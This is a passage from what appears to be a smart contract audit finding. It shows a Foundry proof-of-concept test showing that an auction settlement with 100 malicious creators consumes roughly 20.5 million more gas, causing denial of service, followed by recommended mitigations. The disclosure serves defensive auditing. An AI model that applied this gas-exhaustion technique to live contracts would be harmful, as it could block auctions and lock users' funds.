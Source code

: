 >
>        vm.warp(block.timestamp + auction.duration() + 1); // Fast forward time to end the auction
>    }
>
>    function testDOS() public
>    {
>        uint gasConsumption1;
>        uint gasConsumption2;
>        uint gas0;
>        uint gas1;
>
>        vm.startPrank(cultureIndex.owner());
>        cultureIndex._setQuorumVotesBPS(0);
>        vm.stopPrank();
>
>        _createAndFinishAuction(true);
>
>        gas0 = gasleft();
>        auction.settleCurrentAndCreateNewAuction();
>        gas1 = gasleft();
>        // we calculate gas consumption in case of `100` malicious creators
>        gasConsumption1 = gas0 - gas1;
>
>        _createAndFinishAuction(false);
>
>        gas0 = gasleft();
>        auction.settleCurrentAndCreateNewAuction();
>        gas1 = gasleft();
>        // we calculate gas consumption in case of `1` "honest" creator
>        gasConsumption2 = gas0 - gas1;
>
>        console.log("Gas consumption difference =", gasConsumption1 - gasConsumption2);
>    }
>```
>
>It will output a value `~20 500 000` as a gas difference between the use with one "honest" creator and `100` malicious creators when `settleCurrentAndCreateNewAuction` is called.
>
>## Tools Used
>
>VS Code
>
>## Recommended Mitigation Steps
>
>Consider limiting the number of creators that may be specified.
>
>Alternatively, don't distribute `ETH` and `ERC20` tokens to creators in `_settleAuction` - instead let them receive their rewards in a separate function (for example, called `claimRewards`), that one of them will call, independently from `_settleAuction`.
>
>## Assessed type
>
>DoS
